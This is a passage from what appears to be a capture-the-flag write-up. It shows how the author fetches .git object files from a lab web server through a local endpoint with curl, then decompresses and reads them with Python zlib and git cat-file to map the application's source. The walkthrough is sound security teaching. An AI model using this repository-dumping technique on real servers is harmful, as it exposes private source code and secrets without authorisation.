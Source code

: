    
    
    oxdf@hacky$ curl -s http://localhost:5000/var/www/image/.git/objects/9c/17e5362e5ce2f30023992daad5b74cc562750b | tee .git/objects/9c/17e5362e5ce2f30023992daad5b74cc562750b
    xA
    0=,&m           nii`ʺ,ZAPH:S(\:Q:Of*/gIHy$
    Qb_bhZi6G)?'W;'a>gf
    i;/ҒE/
    

The results are not obvious. That’s because they are [zlib
compressed](https://matthew-brett.github.io/curious-
git/reading_git_objects.html). That article shows up to decompress them with
Python:

    
    
    oxdf@hacky$ python
    Python 3.11.2 (main, Feb  8 2023, 14:49:25) [GCC 11.3.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> import zlib 
    >>> with open('.git/objects/9c/17e5362e5ce2f30023992daad5b74cc562750b', 'rb') as f:
    ...     compressed_contents = f.read()
    ... 
    >>> decompressed_contents = zlib.decompress(compressed_contents)
    >>> print(decompressed_contents.decode())
    commit 219tree 30617cae3686895c80152d93a0568e3d0b6a0c49
    parent a85ddf4be9e06aa275d26dfaa58ef407ad2c8526
    author james <james@haxtables.htb> 1668104210 +0000
    committer james <james@haxtables.htb> 1668104210 +0000
    
    Updated scripts!
    

Alternatively, there’s a `git` subcommand, `cat-file` ([docs](https://git-
scm.com/docs/git-cat-file), that will do this:

    
    
    oxdf@hacky$ git cat-file -p 9c17e5362e5ce2f30023992daad5b74cc562750b
    tree 30617cae3686895c80152d93a0568e3d0b6a0c49
    parent a85ddf4be9e06aa275d26dfaa58ef407ad2c8526
    author james <james@haxtables.htb> 1668104210 +0000
    committer james <james@haxtables.htb> 1668104210 +0000
    
    Updated scripts!
    

This object is built with a reference to another object,
`30617cae3686895c80152d93a0568e3d0b6a0c49`. I’ll need to get that on into
place using the same method:

    
    
    oxdf@hacky$ mkdir .git/objects/30
    oxdf@hacky$ curl -s http://localhost:5000/var/www/image/.git/objects/30/617cae3686895c80152d93a0568e3d0b6a0c49 > .git/objects/30/617cae3686895c80152d93a0568e3d0b6a0c49
    oxdf@hacky$ git cat-file -p 30617cae3686895c80152d93a0568e3d0b6a0c49
    040000 tree 26c6c873fe81c801d731e417bf5d92e5bfa317d2    actions
    040000 tree 9a515b22daea1a74bbcf5d348ad9339202a8edd6    assets
    040000 tree 2aa032b5df9bbaeedff30b6e13be938e48cae5f4    includes
    100644 blob 72f0e39a9438fc0f915f63e2f26b762eb170cf8b    index.php
    040000 tree e074c833c28d3b024eeea724cf892a440f89a5aa    scripts
    100644 blob ec9b154d84cab1888e2724c1083bf97eb57837c9    utils.php
    